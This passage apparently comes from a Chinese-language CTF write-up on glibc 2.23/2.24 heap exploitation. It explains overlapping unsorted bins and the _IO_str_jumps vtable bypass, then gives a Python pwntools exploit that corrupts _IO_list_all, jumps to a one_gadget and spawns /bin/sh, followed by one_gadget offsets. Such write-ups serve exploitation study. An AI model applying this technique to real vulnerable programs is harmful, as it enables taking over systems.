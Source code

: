 &nbsp;&nbsp;&nbsp;&nbsp;<font size=2>既然有了重叠堆块，再搞一个重叠unsortedbin岂不容易，但这里有一个trick就是free的时候注意伪造一下前后堆块，随便在堆块末尾伪造一个fastbin或者pre_inuse置位的chunk，在这里我直接填充堆块为0x91就完事了。然后free掉末尾的堆块，这样我们就得到了两个没有被top chunk合并的unsortedbin，并且chunk_count=0，因此我们分配了低地址的chunk后对之进行编辑就可以随意修改unsortedbin了，所以这题的思路就这样。对了glibc2.24的话伪造vtable不行了，就把它放在\_IO_str_jumps处，然后根据偏移写好one_gadget就行了，其实跟glibc2.23差了不是特别多，嫌麻烦的学完了之后2.23，2.24的都用这个方法也行（没有2.24libc的，用how2pwn里的unlink2shell.c可以验证绕过vtable是可行的）。</font></br>

```python
add(0x1f8)      # 1
edit(p64(0x91)*0x38)
dele(0)
dele(2)

add(0x118)      # 0
edit(p64(0x91)*0x20)
dele(0)
dele(1)
# we got 2 unsorted bins

# alloc first one
# then rewrite the next unsorted bin, finish the attack!
add(0x118)
payload=p64(0)*3+p64(0x61)
payload+=p64(0)+p64(_IO_list_all+libc_base)
payload+=p64(0)+p64(1)
payload+=p64(0)*21+p64(_IO_file_jumps+libc_base+0xc0)
payload+=p64(one_gadget+libc_base)
edit(payload)
#gdb.attach(p,gdbscript='finish\nfinish\nfinish\nfinish\nfinish')

add(0x100)


p.interactive()


'''
0x3f4d6	execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x3f52a	execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xd6655	execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL

'''

```



